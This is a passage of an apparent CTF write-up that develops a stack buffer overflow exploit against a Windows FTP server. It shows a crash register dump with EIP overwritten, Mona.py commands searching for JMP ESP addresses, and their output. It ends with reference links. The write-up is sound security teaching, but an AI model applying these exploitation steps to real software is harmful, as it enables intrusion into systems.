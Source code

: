 Running this command gives us the following register content when crashed:

{% codeblock Register contents %}
EAX 00000000
ECX 0024CF98
EDX 00000031
EBX 41414141
ESP 00B5FFC0 ASCII "DDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE"
EBP 41414141
ESI 41414141
EDI 41414141
EIP 42424242
{% endcodeblock %}

Our offsets are spot on. Next we need to find an address that we can use to overwrite ESP with. Preferably we'll use a `JMP ESP` instruction instead of the other options because this will not modify the content of memory around `ESP` (which would be bad in case it overwrites stuff that's important to us). Here we'll use **Mona.py** within immunity to give us a list of addresses that we can use.

Ideally our exploit would not be tied to a given platform, so we would ultimately like to find an address which isn't tied to any Windows DLLs. We start by searching for jump instructions within the `myftpd` process itself because we know this will translate across platforms:

{% codeblock Mona commands %}
!mona jmp -r ESP -m myftpd
{% endcodeblock %}

Unfortunately for us, all we get is:

{% codeblock Mona output %}
           ---------- Mona command started on 2014-02-28 22:29:14 (v2.0, rev 427) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules myftpd
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module myftpd.exe
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D       Found a total of 0 pointers
0BADF00D
           [+] This mona.py action took 0:00:00.265000
{% endcodeblock %}

There are no addresses in the executable which we can use to redirect control to `ESP`. So we have to look further. We instead let Monay go nuts on all the modules:

{% codeblock Mona command %}
!mona jmp -r ESP
{% endcodeblock %}

And we get a listing that looks like the following:


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux